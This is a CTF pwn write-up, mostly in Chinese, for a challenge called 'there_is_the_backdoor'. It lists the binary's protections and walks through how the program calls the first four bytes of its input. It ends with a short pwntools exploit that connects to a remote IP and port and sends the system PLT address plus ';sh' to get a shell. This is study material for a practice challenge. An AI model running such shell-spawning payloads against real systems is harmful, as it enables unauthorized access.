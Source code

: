 # there_is_the_backdoor

## 保护机制

![image-20230426230609901](C:\Users\24971\AppData\Roaming\Typora\typora-user-images\image-20230426230609901.png)

除了pie其他的都开了

## 代码分析

![image-20230426230712101](C:\Users\24971\AppData\Roaming\Typora\typora-user-images\image-20230426230712101.png)

可以发现就是读入了0x50长度，然后直接call读取的前四个字节内容并且把读取的内容作为参数

![image-20230426231020480](C:\Users\24971\AppData\Roaming\Typora\typora-user-images\image-20230426231020480.png)

可以发现还有system函数，所以我们前四个字节肯定是system函数的plt地址，那么根据system的参数;可以分割指令，那么我们输入内容为p32(system_plt)+b';sh'的时候就会分别执行system(p32(system_plt))和system('sh')，这样就拿到shell了

## exp

```python
from pwn import*
from time import*
#p=process('./back')
#sleep(5)
p=remote('101.42.48.14',8093)
elf=ELF('./back')
system_plt=elf.plt['system']
payload=p32(system_plt)+b';sh\x00'
p.recvuntil('door\n')
p.sendline(payload)
p.interactive()

```

